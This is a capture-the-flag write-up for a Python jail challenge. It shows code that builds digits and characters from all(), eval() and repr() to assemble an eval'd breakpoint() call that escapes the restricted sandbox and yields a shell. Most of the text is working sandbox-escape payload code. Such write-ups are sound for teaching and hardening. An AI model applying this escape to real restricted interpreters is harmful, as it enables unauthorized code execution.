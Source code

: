 ## Python FXXK

<img src="images/chall.png" width=400>

In this Pyjail, we are given a limited charset to craft payloads.  

<img src="images/charset.png" width=400>

This limits the builtins we can use to only `all()`, `eval()` and `repr()`.  

The shortest and most verbose payload we can craft would be `breakpoint()`, however, we need to find a way of representing it using only the provided characters.  

The basic building block of our payload would be digits, and we can thankfully craft `0` and `1` using the allowed builtins.  

```python
+all([[]]) # 0
all([])    # 1
```

Crafting larger numbers isn't an issue, as we can simply chain our digit representations.  

```python
def digit(n):
    if n == 0:
        return "+all([[]])"
    return '+'.join(['all([])'] * n)
```

Now that we can represent arbitrary numbers, representing characters isn't that complicated either, as we can simply grab characters from the string representations of builtins.  

```python
f'repr(eval)[{digit(21)}]' # a
```

However, this could pose a challenge when we require characters that aren't in the string representations of the provided builtins.  

The next step wouild be to gain access to the `chr()` function, allowing us to address this issue.  

```python
f = f'repr(eval)[{digit(10)}]'
l = f'repr(all)[{digit(4)}]'
o = f'repr(repr)[{digit(16)}]'
a = f'repr(eval)[{digit(21)}]'
t = f'repr(repr)[{digit(5)}]'

# repr(float(1))[1]
dot = f'repr(eval({f}+{l}+{o}+{a}+{t})({digit(1)}))[{digit(1)}]' 

u = f'repr(repr)[{digit(2)}]'
n = f'repr(repr)[{digit(8)}]'

c = f'repr(repr)[{digit(13)}]'

# repr([].count)[13]
h = f"repr(eval(repr([])+{dot}+{c}+{o}+{u}+{n}+{t}))[{digit(13)}]"

r = f'repr(repr)[{digit(19)}]'
```

Now that we are able to craft arbitrary characters, we are finally able to build the full payload. 

```python
b = f'repr(repr)[{digit(1)}]'
r = r
e = f'repr(eval)[{digit(19)}]'
a = a
k = f'eval({c}+{h}+{r})({digit(107)})'
p = f'repr(repr)[{digit(21)}]'
o = o
i = f'repr(repr)[{digit(3)}]'
n = n
t = t
lb = f'repr(())[{digit(0)}]'
rb = f'repr(())[{digit(1)}]'

payload = '+'.join([b, r, e, a, k, p, o, i, n, t, lb, rb])
payload = f'eval({payload})'
```

Submitting the payload then gives us a shell where we can retrieve the flag.  

<img src="images/flag.png" width=600>